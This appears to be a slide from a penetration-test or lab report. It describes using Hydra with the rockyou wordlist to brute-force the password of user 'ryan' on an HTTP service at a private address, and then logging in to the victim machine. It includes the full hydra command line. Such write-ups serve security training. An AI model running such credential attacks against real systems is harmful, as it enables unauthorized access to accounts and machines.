

# Exploitation: [Brute force password]
01

02

03

Tools & Processes
Used Hydra to brute force a user’s password.
Achievements
Using the username and password we were able to log in to the victim’s machine.

 hydra -l ryan -P rockyou.txt.gz -s 4444 -f -vV 192.168.1.105 http-get /company_folder/secret_folder